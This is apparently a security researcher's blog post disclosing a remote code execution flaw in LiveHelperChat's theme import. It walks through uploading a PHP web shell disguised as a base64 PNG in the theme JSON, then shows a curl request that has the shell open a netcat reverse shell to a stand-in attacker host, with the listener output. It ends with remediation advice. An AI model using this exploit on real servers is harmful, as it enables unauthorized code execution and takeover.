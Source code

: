 ```yaml
---
layout: post
title: "LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function"
categories: Research
---
```

## LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function

# Summary:
Upon logging in, an import functionality has been identified that accepted input in a JSON format. The JSON format was analyzed and a base64 encoded PNG image input has been identified. By manipulating the image input parameters, it was possible to upload a malicious php file in order to execute arbitrary code.

# Plugin informations:
Name: Live Helper Chat
Homepage: https://livehelperchat.com/

# Proof of Concept (PoC):
Upon first inspection, there are no themes currently uploaded on the web application. The first step would be to try and upload a PHP file directly in one of the file inputs, however this does not seem to work in our case. 

In order to exploit this vulnerability, we must first create basic theme. Let’s move to the vulnerable directory.

> **/lhc_web/index.php/site_admin/abstract/new/WidgetTheme**{: style="color: red"}

We fill up the required inputs and parameters with dummy data. Then, we go back and download the theme from the Widget directory located here:

> **/lhc_web/index.php/site_admin/abstract/edit/WidgetTheme/1**{: style="color: red"}

When the file is downloaded, we open it and modify the **offline_image_data parameter** as well as the **offline_image_data_ext** parameter
&nbsp;

**Payload:** base64(Image Header + PHP Web Shell)
&nbsp;

**Offline_image_data** is replaced with the payload.
**Offline_image_data_ext** is simply set to “php”.
&nbsp;

The exploit should look something like this:
&nbsp;

```json
{
    "name": "Test",
    "name_company": "Peter Winter",
    "..[SNIP]..": "..[SNIP]..",
    "offline_image_data": "base64_payload",
    "offline_image_data_ext": "php"
}
```
&nbsp;
After the theme with the exploit is prepared it is uploaded on the web server in the following page:
16px
> **/lhc_web/index.php/site_admin/theme/import**{: style="color: red"}
&nbsp;

![import theme]({{ site.baseurl }}/assets/images/image1.png){:.images}
&nbsp;

After the upload is successful, the user must edit the imported theme at the Widget themes section. When the page is loaded, so is the php web shell. In our case, we have identified the path where the shell has been uploaded by viewing the page source and viewing the file path of the **offline_image_data** parameter:

> **/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php**{: style="color: red"}
&nbsp;

Our webshell can execute code on the server by using “cmd” as a parameter. The user can then proceed to set up a reverse shell to their machine by using nc. We then proceed to establishing a reverse shell connection by issuing the following command through the GET method. Firstly, we start a listener on our local machine.
&nbsp;

{% highlight bash %}
> $ nc -lnvp 60000
{% endhighlight %}
&nbsp;

Then, we proceed to send a GET request to the webserver by leveraging our PHP web shell.
&nbsp;

{% highlight bash %}
> $ curl -X GET \ 
http://victim_ip/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php?cmd=nc+attacker_ip+60000+-e+/bin/bash
{% endhighlight %}
&nbsp;

If the connection is successful, we should get the following message on our listener. Upon issuing the id command, we find out that we are logged in as the www-data user.
&nbsp;

{% highlight bash %}
> $  nc -lnvp 60000
listening on [any] 60000 ...
connect to [attacker_ip] from (UNKNOWN) [vitim_ip] 40248
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}
&nbsp;

# Some of the recommendations for remediating this vulnerability are listed below:

- Restrict file types accepted for upload (check the file extension and only allow certain files to be uploaded.)
- Use a whitelist approach instead of a blacklist. 
- Check for double extensions such as .php.png. 
- Check for files without a filename like .htaccess (on ASP.NET, check for configuration files like web.config). 
- Change the permissions on the upload folder so the files within it are not executable. If possible, rename the files that are uploaded.
- Check OWASP page for unrestricted upload for the rest of best-practice solutions.


# Vulnerability found by:
Me and [0xcela](https://twitter.com/0xcela) while we were working on [Sentry](https://sentry.co.com)

